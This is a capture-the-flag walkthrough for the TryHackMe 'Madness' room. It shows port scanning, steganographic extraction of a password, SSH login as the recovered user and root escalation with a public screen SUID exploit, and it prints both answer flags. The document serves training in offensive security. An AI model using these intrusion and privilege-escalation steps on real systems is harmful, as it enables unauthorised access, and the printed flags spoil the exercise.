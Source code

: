 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.183.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 21:50 IST
Nmap scan report for 10.10.183.133
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


### Let download this imge
```
wget http://10.10.183.133/thm.jpg
```
### Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
### Let take look at this:
```
http://10.10.183.133/th1s_1s_h1dd3n
```
### Source code i got this

<div align="center">
  <img src="https://github.com/user-attachments/assets/5fb24250-f28b-433b-8590-473505d2fa1e" height=""></img>
</div>

### Let try to enter random value

<div align="center">
  <img src="https://github.com/user-attachments/assets/f0fbbd0e-ac18-4e9c-9058-3c128f36117d" height=""></img>
</div>

### Doing this manually take a long time let automate this with help of python, I already created secret.py [tap here](./secret.py) 
```
death@esther:~$ python3 secret.py 
Enter IP:10.10.183.133
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```
# y2RPJ4QaPF!B 

steghide info thm.jpg
steghide extract -sf thm.jpg
cat hidden.txt
# wbxre
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# joker
wget https://<IP>/5iW7kC8.jpg
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
sshpass -p "*axA&GF8dP" ssh joker@<IP>
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
```
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
